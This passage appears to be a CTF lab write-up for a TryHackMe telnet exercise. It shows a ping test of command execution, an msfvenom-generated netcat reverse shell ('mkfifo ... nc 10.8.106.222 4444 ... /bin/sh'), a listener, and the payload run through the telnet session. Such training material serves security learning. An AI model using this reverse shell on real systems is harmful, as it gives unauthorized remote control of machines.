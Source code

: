 6. Now, use the command "ping [local tun0 ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

```
kali@kali:~/CTFs/tryhackme/Network Services$ ping 10.8.106.222 -c 1
PING 10.8.106.222 (10.8.106.222) 56(84) bytes of data.
64 bytes from 10.8.106.222: icmp_seq=1 ttl=64 time=0.027 ms

--- 10.8.106.222 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.027/0.027/0.027/0.000 ms
```



7. Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!
8. We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax: "`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`"

* `-p` = payload
* `lhost` = our local host IP address
* `lport` = the port to listen on
* `R` = export the payload in raw format

What word does the generated payload start with?

```
kali@kali:~/CTFs/tryhackme/Network Services$ msfvenom -p cmd/unix/reverse_netcat lhost=10.8.106.222 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 102 bytes
mkfifo /tmp/itxhqvx; nc 10.8.106.222 4444 0</tmp/itxhqvx | /bin/sh >/tmp/itxhqvx 2>&1; rm /tmp/itxhqvx
```

`mkfifo`

9. Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using: "`nc -lvp [listening port]`" What would the command look like for the listening port we selected in our payload?

```
kali@kali:~/CTFs/tryhackme/Network Services$ nc -lvp 4444
Listening on 0.0.0.0 4444
```

`nc -lvp 4444`

10. Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!

```
.RUN mkfifo /tmp/itxhqvx; nc 10.8.106.222 4444 0</tmp/itxhqvx | /bin/sh >/tmp/itxhqvx 2>&1; rm /tmp/itxhqvx
```

